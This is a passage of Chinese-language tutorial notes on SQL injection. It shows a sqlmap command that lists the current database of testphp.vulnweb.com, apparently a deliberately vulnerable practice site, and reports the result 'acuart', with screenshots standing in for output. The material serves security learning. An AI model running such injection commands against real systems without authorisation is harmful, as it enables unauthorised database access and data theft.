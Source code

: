 跑出系统版本就可确认有sql注入

![image-20240412104722727](../图片/image-20240412104722727.png)

查询当前数据库名，除了access数据库都需要查询

```
python sqlmap.py -u http://testphp.vulnweb.com/artists.php?artist=1 --current-db
```

![image-20240412105130649](../图片/image-20240412105130649.png)

查询到当前数据库名为“acuart”

![image-20240412105158623](../图片/image-20240412105158623.png)
